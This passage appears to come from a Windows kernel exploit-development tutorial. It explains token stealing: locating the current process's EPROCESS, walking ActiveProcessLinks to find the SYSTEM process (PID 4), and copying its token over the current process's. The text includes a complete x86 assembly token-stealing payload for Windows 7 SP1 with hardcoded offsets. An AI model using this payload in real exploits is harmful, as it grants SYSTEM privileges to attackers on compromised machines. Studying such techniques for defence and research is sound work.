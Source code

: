 #### 4. Locating current process EPROCESS

More of the same, EPROCESS address is at `_KTHREAD.ApcState.Process`.

#### 5. Locating SYSTEM EPROCESS

Using `_EPROCESS.ActiveProcessLinks.Flink` linked list we're able to iterate over processes. Every iteration we need to check if `UniqueProcessId` equals 4 as that's the System process PID. 

#### 6. Replacing the token

If it's a match we overwrite the target process `Token` with that of SYSTEM.

Notice that `Token` is of type `_EX_FAST_REF` and the lower 4 bits aren't part of it.
```
kd> dt _EX_FAST_REF
ntdll!_EX_FAST_REF
   +0x000 Object           : Ptr64 Void
   +0x000 RefCnt           : Pos 0, 4 Bits
   +0x000 Value            : Uint8B
```

Normally you want to keep that value when replacing the token, but I haven't run into issues for not replacing it before. 

---

#### Token Stealing Payload Windows 7 x86 SP1
```nasm
.386
.model flat, c ; cdecl / stdcall
ASSUME FS:NOTHING
.code
PUBLIC StealToken
StealToken   proc

pushad                              ; Save registers state

; Start of Token Stealing Stub
xor eax, eax                        ; Set ZERO
mov eax, DWORD PTR fs:[eax + 124h]  ; Get nt!_KPCR.PcrbData.CurrentThread
                                    ; _KTHREAD is located at FS : [0x124]

mov eax, [eax + 50h]                ; Get nt!_KTHREAD.ApcState.Process
mov ecx, eax                        ; Copy current process _EPROCESS structure
mov edx, 04h                        ; WIN 7 SP1 SYSTEM process PID = 0x4

SearchSystemPID:
mov eax, [eax + 0B8h]               ; Get nt!_EPROCESS.ActiveProcessLinks.Flink
sub eax, 0B8h
cmp[eax + 0B4h], edx                ; Get nt!_EPROCESS.UniqueProcessId
jne SearchSystemPID

mov edx, [eax + 0F8h]               ; Get SYSTEM process nt!_EPROCESS.Token
mov[ecx + 0F8h], edx                ; Replace target process nt!_EPROCESS.Token
                                    ; with SYSTEM process nt!_EPROCESS.Token
; End of Token Stealing Stub

StealToken ENDP
end
```
